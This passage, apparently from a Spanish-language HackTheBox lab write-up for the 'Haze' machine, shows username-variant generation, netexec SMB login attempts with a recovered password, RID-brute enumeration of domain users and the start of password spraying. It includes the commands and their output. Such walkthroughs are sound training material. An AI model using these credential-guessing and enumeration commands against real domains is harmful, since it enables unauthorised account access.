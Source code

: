 Se nos creará un listado con todas las posibles combinaciones de nombre de usuario para `Paul Taylor`

~~~ bash
paul
paul.taylor
paul_taylor
paultaylor
p.taylor
ptaylor
taylor
taylorpaul
~~~

Usaremos esta lista para intentar autenticarnos con cada nombre de usuario generado y la contraseña que encontramos para `Paul Taylor`

~~~ bash
nxc smb dc01.haze.htb -u paul.txt -p 'Ld@p_Auth_Sp1unk@2k24' 
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.61     445    DC01             [-] haze.htb\paul:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24
~~~

Si intentamos enumerar usuarios o grupos del dominio, no podremos consultar más que nuestra información


## RID Cycling Attack

Al intentar enumerar usuarios del dominio ya sea desde `netexec` o `rpcclient`, veremos solo nuestro nombre de usuario. Esto se deba posiblemente a que el usuario `paul.taylor` posea restricciones configuradas. Es por eso que optaremos por realizar fuerza bruta a los valores de RID para descubrir usuarios y grupos del dominio

> Luego de un análisis posterior, podemos llegar a la conclusión que esto se debe a que el usuario `paul.taylor` forma parte del grupo `Restricted Users`, lo que le prohíbe enumerar usuarios, grupos o OU (Unidad Organizativa), solamente puede **consultar información de su propia cuenta**
{: .notice--warning}

~~~ bash
nxc smb dc01.haze.htb -u paul.taylor -p 'Ld@p_Auth_Sp1unk@2k24' --rid-brute > users.txt
~~~

Ahora haremos un pequeño tratamiento para poder construir nuestro listado de usuarios

~~~ bash
cat users.txt | grep SidTypeUser | awk -F 'HAZE' '{ print $2 }'| tr -d '\\' | cut -d ' ' -f1-1 | sponge users.txt
~~~


## Password Spraying

Las credenciales que conseguimos podrían ser válidas para otras cuentas del dominio, intentaremos utilizar la contraseña para todos los usuarios encontrados
